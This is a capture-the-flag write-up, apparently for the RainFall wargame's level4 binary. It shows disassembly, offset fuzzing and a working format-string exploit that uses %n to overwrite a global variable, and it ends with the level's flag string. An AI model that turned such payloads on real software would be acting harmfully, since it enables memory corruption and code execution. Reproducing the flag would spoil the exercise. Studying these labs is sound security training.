 ```
mov    0x8049810,%eax
cmp    $0x1025544,%eax

x 0x8049810
0x8049810 <m>:	0x00000000

objdump -t ./level4 | grep bss
08049810 g     O .bss	00000004              m

```
cmp var m with `p 0x1025544 = 16930116`

fuzz the binary

```
level4@RainFall:~$ python -c 'print "AAAA" + " %p " * 30' | ./level4
AAAA 0xb7ff26b0  0xbffff754  0xb7fd0ff4  (nil)  (nil)  0xbffff718  0x804848d  0xbffff510  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141
```

```
level4@RainFall:~$ python -c 'print "AAAA" + " %12$x" ' | ./level4
AAAA 41414141
```

p 0x1025544 - 4 = 16930112
```
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"' | ./level4 
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n" ' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

